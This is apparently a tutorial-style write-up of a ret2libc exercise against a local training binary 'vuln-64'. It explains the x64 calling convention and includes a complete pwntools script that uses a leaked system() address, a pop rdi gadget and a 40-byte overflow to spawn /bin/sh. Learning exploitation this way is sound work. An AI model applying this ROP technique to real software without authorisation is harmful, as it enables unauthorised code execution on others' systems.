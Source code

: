 ## 📘 Exploit Write-up: `vuln-64` – system() Leak to Shell (x64)

---

### 🔍 Binary Overview

* **Target:** `vuln-64`
* **Architecture:** 64-bit (x86\_64)
* **NX:** Enabled
* **ASLR:** Enabled
* **Stack Canary:** Not present
* **PIE:** Disabled
* **Libc:** Dynamically linked (known version)
* **Vulnerability:** Classic Buffer Overflow with libc leak

---

### 🧠 Objective

Exploit a buffer overflow vulnerability in a 64-bit binary using a leaked address of `system()`, and then call:

```c
system("/bin/sh");
```

to spawn a shell.

---

## 🧬 Calling Convention: 32-bit vs 64-bit

|             | **32-bit (x86)**            | **64-bit (x86\_64 / AMD64)**          |
| ----------- | --------------------------- | ------------------------------------- |
| Argument 1  | `pushed` onto the **stack** | passed in **RDI register**            |
| Argument 2  | stack                       | RSI                                   |
| Argument 3  | stack                       | RDX                                   |
| Return addr | on stack                    | on stack                              |
| Cleanup     | caller                      | caller                                |
| Alignment   | not required                | sometimes needs a `ret` for alignment |

✅ **In 64-bit, arguments are passed via registers,** which is why you need gadgets like `pop rdi; ret` to set up function calls.

---

### 🔓 Vulnerability

The binary prints the address of `system()` at runtime:

```c
printf("system is at: %p\n", system);
```

You control input later and can overflow the stack.

---

### ⚙️ Exploit Strategy

1. Receive the **leaked `system()` address**.
2. Calculate **libc base** from known offset of `system`.
3. Find:

   * `/bin/sh` string inside libc
   * `pop rdi; ret` gadget to set the first argument
   * optional `ret` gadget for alignment (some libc versions crash without it)
4. Build ROP chain:

   * Overflow
   * `pop rdi; ret`
   * Address of `"/bin/sh"`
   * `ret` (optional)
   * Call `system`
5. Send payload and interact with shell.

---

### 🧪 Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-64')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
rop = ROP(elf)
p = process()

# Step 1: Leak system() address
p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)
log.info(f'Leaked system: {hex(system_leak)}')

# Step 2: Calculate libc base
libc.address = system_leak - libc.sym['system']
log.success(f'Libc base: {hex(libc.address)}')

# Step 3: Find gadgets and strings
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh = next(libc.search(b'/bin/sh'))
ret = rop.find_gadget(['ret'])[0]  # Optional alignment

log.info(f'pop rdi; ret at: {hex(pop_rdi)}')
log.info(f'/bin/sh at: {hex(bin_sh)}')

# Step 4: Build payload
payload = flat(
    b'A' * 40,         # Overflow buffer (to return address)
    pop_rdi,           # Set RDI = /bin/sh
    bin_sh,
    ret,               # Optional alignment (some libc requires it)
    libc.sym['system'] # system("/bin/sh")
)

# Step 5: Send payload and get shell
p.sendline(payload)
p.interactive()
```

---

### 🧾 Example Output

![final result](../img/64_final_result.png)


---

### ✅ Success

We successfully spawn a shell via ROP and call to `system("/bin/sh")`.

---

## 🔍 Summary

| Component       | Value                         |
| --------------- | ----------------------------- |
| Overflow offset | 40 bytes                      |
| system() leak   | Parsed from program output    |
| libc base       | Calculated from system offset |
| pop rdi; ret    | Found via ROP                 |
| /bin/sh         | Located in libc               |
| Final call      | `system("/bin/sh")`           |


